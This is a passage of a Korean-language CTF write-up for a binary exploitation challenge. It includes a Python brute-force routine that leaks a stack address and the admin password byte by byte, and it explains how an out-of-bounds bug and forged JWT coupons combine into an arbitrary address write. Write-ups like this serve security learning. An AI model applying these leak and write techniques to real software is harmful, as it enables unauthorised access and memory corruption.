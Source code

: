 `count`는 최대 `32`까지 증가시킬 수 있으므로 최대 `32`바이트까지 leak이 가능하지만, 마지막 `8`바이트는 `basic_string`의 기타 데이터이므로 총 `26`바이트만 leak을 시도했다.

이를 통해 stack 주소와 `admin`의 `pw`를 획득할 수 있다.
``` python
def memory_leak(s):
    hit = bytes()
    for i in range(0x1a):
        for j in range(0x100):
            if j in [0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x20]:
                continue
            r = login(s, b"Welcome!", hit + j.to_bytes(1, 'little'))
            if b"Login Success" in r:
                hit += j.to_bytes(1, 'little')
                sys.stdout.write(f"\rhit : {hit}")
                sys.stdout.flush()
                break
        logout(s)
        it = str(i + 1).encode()
        join(s, it, it, it, i + 1)
    sys.stdout.write(f"\n")
    return hit
```
`\t`, `\n` 등을 의미하는 값들은 입출력상 leak이 불가능하지만 자주 발생하는 문제는 아닌 것 같다.

### Game win
로그인을 하면 `Play Game`, `Apply Coupon`, `Coupon usage history`, `Change PW`, `Print Information`중 하나를 할 수 있다.

이 중 `Change PW`와 `Print Information`은 `Play Game`에서 보스를 쓰러뜨리고 `regular member`가 되어야 사용할 수 있는 메뉴이다.

문제를 풀 때는 다음 단계로 넘어가기 위해 일단 게임을 깼는데 지금처럼 먼저 exploit 시나리오를 세워서 목적을 가지고 진행하는 습관을 들여야겠다.

OOB 취약점을 이용해서 `Welcome!` 계정으로 게임을 깨고 `Change PW`를 호출하면 `pw_ptr`이 가리키는 곳의 값을 변경할 수 있다.

`Welcome!->pw_ptr`은 `admin->pw_ptr`이 저장된 주소를 가리키고 있으므로, `admin->pw_ptr`을 원하는 주소로 바꿔놓고 `admin`으로 로그인해서 다시 `Change PW`를 호출하면 앞서 설정한 원하는 주소에 데이터를 쓸 수 있는 AAW를 획득할 수 있다.

다만 완전히 AAW는 아닌 것이 `admin->pw_ptr`을 바꾸는 순간 `admin`으로 로그인을 하기 위해 필요한 비밀번호가 바뀐다.

따라서 데이터를 쓸 주소에 저장된 값을 알고 있어야 하는데, 지금 생각해보니 `Welcome!`의 비밀번호를 바꿀 때 `admin->pw_size`까지 `1`로 바꿔서 brute forcing을 해도 괜찮을 것 같다.

아무튼 게임은 나를 따라오는 `Enemy`를 피해 `Item`을 획득해서 `Attack`과 `Defense`를 올린 뒤 `Enemy`와 싸워야 하는데 `Item`을 다 먹어도 `Enemy`를 이길 수 없다.

이 때 가입 시 발급되는 `coupon`을 이용하면 `Attack`이 두 배가 되므로 JWT counterfeit 취약점을 이용해 총 네개의 `coupon`을 이용하면 `Enemy`를 이길 수 있다.

문제는 상술한 AAW를 얻기 위해 `Welcome!` 계정이 `regular member`가 되어야하는데 `Welcome!` 계정은 가입된 계정이 아니다보니 발급된 `coupon`이 없다.
``` c
__int64 __fastcall join_8A4A(user_db *user_db)
{
  ...
  if ( user_db->count <= 31 )
  {
    ...
      for ( i = 0; i < user_db->count; ++i )
      {
        a2_20_23596(id_i, &user_db->user_list[i]);
        id_same = strncmp_1043E(id_i, id);
        std::string::~string(id_i);
        if ( id_same )
        {
          std::operator<<<std::char_traits<char>>(&std::cout, "[*] The ID already exists.\r");
          std::ostream::operator<<();
          result = -1;
```